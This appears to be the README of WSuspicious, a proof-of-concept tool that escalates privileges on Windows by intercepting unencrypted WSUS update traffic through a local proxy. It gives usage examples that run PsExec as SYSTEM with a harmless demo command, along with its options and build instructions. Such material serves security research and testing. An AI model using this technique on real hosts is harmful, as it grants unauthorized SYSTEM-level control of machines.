 # WSuspicious

## Summary
This is a proof of concept program to escalate privileges on a Windows host using non-SSL WSUS traffic.
It was inspired from the WSuspect proxy project: https://github.com/ctxis/wsuspect-proxy

## Usage
The tool was tested on a Windows 10 machine (10.0.18363).

```
Usage: WSuspicious [OPTION]...
    Ex. WSuspicious.exe /command:" -accepteula -s -d cmd /c ""echo 1 > C:\\wsuspicious.txt""" /autoinstall
    
Creates a local proxy to intercept WSUS requests and try to escalate privileges.
If launched without any arguments, the script will simply create the file C:\\wsuspicious.was.here

    /exe                The full path to the executable to run
                        Known payloads are bginfo and PsExec. (Default: .\PsExec64.exe)
    /command            The command to execute (Default: -accepteula -s -d cmd /c "echo 1 > C:\\wsuspicious.was.here")
    /debug              Increase the verbosity of the tool
    /autoinstall        Start Windows updates automatically after the proxy is started.
    /help               Display this help and exit
```

### Examples
![WSuspicious Privesc Example](https://raw.githubusercontent.com/GoSecure/WSuspicious/master/docs/privesc.gif?token=AA5LG7OIREGFUXSOK7AXW4K6UIFI6)

## Compilation
The ILMerge dependency can be used to compile the application into a standalone .exe file.
To compile and compile the application, simply use the following command:
```
dotnet msbuild /t:Restore /t:Clean /t:Build /p:Configuration=Release /p:DebugSymbols=false /p:DebugType=None /t:ILMerge /p:TrimUnusedDependencies=true
```

